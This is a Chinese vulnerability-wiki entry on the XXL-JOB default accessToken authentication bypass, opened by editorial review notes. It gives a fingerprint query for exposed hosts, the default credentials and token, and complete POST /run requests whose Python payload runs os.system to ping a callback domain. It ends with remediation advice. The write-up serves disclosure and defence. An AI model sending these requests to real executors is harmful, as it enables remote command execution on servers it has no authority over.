




## 核对与使用边界

- 默认 accessToken 是文中安全配置研究的技术材料，不能把配置行误当版本号，也不能外推所有部署都使用该值。无 token/有 token 两请求的对照仍需实际执行器响应；GLUE_PYTHON 会启动任务并外连，固定 DNS 目标没有独立回调证据。

- 明确更正：原 version 字段抽入命令、源码、路径、配置或普通叙述，不是版本号，已清空机器版本字段并原样保留于 version_notes；实际版本/分支条件见本节逐篇记录，未从代码猜造版本。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：2.3.1–2.4.0且保留\[默认令牌值已隐藏\]；实际2.3.1实验

代码与实验材料：两请求无token/有token对照，GLUE_PYTHON固定DNS目标，未独立查看回调

来源证据范围：有官方AccessToken文档、源码tag

- **凭据与会话边界（1）**：version字段误取配置；依据：xxl.job.accessToken=\[凭据或样例值已隐藏\]不是版本。抓包中的会话不能视为未认证访问证明；可识别的真实会话值按中段星号遮罩处理，默认演示值和攻击语法保留。需重新取得授权测试会话，不能复用文中值。

- **证据待核（2）**：请求成功不等于脚本执行；依据：HTTP200表述应结合独立DNS/日志证据，固定第三方域名不能用于新验证。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **凭据与会话边界（3）**：修复边界应区分凭据配置与程序漏洞；依据：默认未改key不等于算法绕过，须生成强随机唯一值并同步，非简单任意共同值。抓包中的会话不能视为未认证访问证明；可识别的真实会话值按中段星号遮罩处理，默认演示值和攻击语法保留。需重新取得授权测试会话，不能复用文中值。

- **事实待核（4）**：跨CVE图片需核对用途；依据：登录图复用36157目录，可能通用截图，不能仅目录就判错误。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# XXL-JOB 默认 accessToken 身份绕过漏洞

## 漏洞描述

XXL-JOB 是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。现已开放源代码并接入多家公司线上产品线，开箱即用。XXL-JOB 分为 admin 和 executor 两端，前者为后台管理页面，后者是任务执行的客户端。

XXL-JOB 默认配置下，用于调度通讯的 accessToken 不是随机生成的，而是使用 application.properties 配置文件中的默认值。在实际使用中，如果没有修改默认值，攻击者可绕过认证调用 executor，执行任意命令，从而获取服务器权限。

## 披露时间

```
2023-11-01
```

## 漏洞影响

```
v2.3.1 <= XXL-JOB <= v2.4.0
```

## 网络测绘

```
app="XXL-JOB" || title="任务调度中心" || ("invalid request, HttpMethod not support" && port="9999")
```

## 环境搭建

本地搭建 XXL-JOB v2.3.1，源码 https://github.com/xuxueli/xxl-job/archive/refs/tags/2.3.1.zip

环境启动后，访问 `http://your-ip:8080/xxl-job-admin/toLogin` 即可查看到管理端（admin），访问 `http://your-ip:9999` 可以查看到客户端（executor）。

默认口令 `admin/123456` 登录后台：


## 漏洞复现

从 XXL-JOB v2.3.1 版本开始，在 application.properties 为 accessToken 增加了默认值：

```
xxl.job.accessToken=default_token
```







在实际使用中，如果没有修改默认值，攻击者可绕过认证调用 executor，执行任意命令，从而获取服务器权限。

首先，我们不带 `XXL-JOB-ACCESS-TOKEN`，对 executor 未授权访问漏洞进行利用，探测目标是否出网。此处运行模式为 GLUE 模式 (Python)，其他方式均可，主要取决于目标环境。

```
POST /run HTTP/1.1
Host: your-ip:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 407

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_PYTHON",
  "glueSource": "import os\nos.system('ping 0e6ee0e0f3.ipv6.1433.eu.org.')",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

HTTP Status Code 500，报错：

```
{"code":500,"msg":"The access token is wrong."}
```




然后，我们带上 `XXL-JOB-ACCESS-TOKEN`，再次发送数据包：

```
POST /run HTTP/1.1
Host: your-ip:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
XXL-JOB-ACCESS-TOKEN: default_token
Content-Length: 407

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_PYTHON",
  "glueSource": "import os\nos.system('ping d02caeb35f.ipv6.1433.eu.org.')",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

HTTP Status Code 200，成功：




## 漏洞修复

修改调度中心和执行器配置项 `xxl.job.accessToken` 的默认值，注意要设置相同的值。

参考 [官方文档](https://www.xuxueli.com/xxl-job/#5.10%20%E8%AE%BF%E9%97%AE%E4%BB%A4%E7%89%8C%EF%BC%88AccessToken%EF%BC%89) 中 5.10 章节关于访问令牌（AccessToken）的相关描述：

- 为提升系统安全性，调度中心和执行器进行安全性校验，双方 AccessToken 匹配才允许通讯；
- 调度中心和执行器，可通过配置项 “xxl.job.accessToken” 进行 AccessToken 的设置。
- 调度中心和执行器，如果需要正常通讯，只有两种设置；
	- 设置一：调度中心和执行器，均不设置 AccessToken；关闭安全性校验；
	- 设置二：调度中心和执行器，设置了相同的 AccessToken；


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
